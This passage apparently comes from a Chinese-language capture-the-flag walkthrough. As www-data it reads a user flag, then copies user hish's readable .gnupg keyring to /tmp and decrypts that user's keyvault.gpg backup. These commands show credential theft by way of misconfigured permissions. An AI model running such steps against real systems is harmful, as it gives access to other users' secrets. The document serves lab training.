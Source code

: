 ![](./images/image-8.png)

可以直接读取到`user.txt`

```
www-data@environment:/home/hish$ ls -al
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12 11:51 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6 21:28 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12 14:42 .bashrc
drwxr-xr-x 4 hish hish 4096 May  7 21:48 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6 21:43 .local
-rw-r--r-- 1 hish hish  807 Jan  6 21:28 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12 11:49 backup
-rw-r--r-- 1 root hish   33 May  7 21:46 user.txt
www-data@environment:/home/hish$ cat user.txt 
985363b5exxxxxxxxxxx
```

## Own hish

查看到`backup`目录里有一个`gpg`文件

```
www-data@environment:/home/hish/backup$ ls -al
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12 11:49 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 May  7 21:48 keyvault.gpg
```

由于当前`www-data`用户无法在`/var/www`目录下创建文件，因此指定目录

```
# 1. 拷贝 hish 用户的密钥目录
cp -r /home/hish/.gnupg /tmp/mygnupg

# 2. 设置权限
chmod -R 700 /tmp/mygnupg

# 3. 确认是否存在私钥
gpg --homedir /tmp/mygnupg --list-secret-keys

# 4. 解密 keyvault.gpg
gpg --homedir /tmp/mygnupg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg
```
